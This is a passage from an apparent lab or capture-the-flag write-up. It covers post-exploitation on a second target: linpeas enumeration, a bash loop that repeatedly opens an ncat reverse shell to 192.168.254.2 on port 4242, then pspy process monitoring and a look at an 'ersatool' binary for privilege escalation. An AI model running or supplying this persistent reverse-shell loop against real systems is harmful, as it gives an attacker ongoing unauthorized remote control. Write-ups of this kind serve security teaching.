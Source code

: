 Linpeas didn't find anything useful. Ncat was downloaded the same way as linpeas and due to lack of `cron`, simple bash script was created:
```bash
#!/bin/bash
while [ : ]
do
        /tmp/ncat 192.168.254.2 4242 -e /bin/bash 2>/dev/null
        sleep 5
done
```
It was executed with:
```console
$ ./cron.sh &
```

## Privilege escalation

To monitor processes running on the **target 2**, [pspy](https://github.com/DominicBreuker/pspy) was transfered and executed:

![Pspy transferred](images/pspy-transfer.png) 
![Pspy running](images/pspy-running.png) 


Going back to first discovery of the second target. When port 80 was accessed, output of some command was shown. It was `/usr/bin/ersatool`. New session was established to **target 2** and we tried to run this:

![ersatool](images/ersatool.png) 

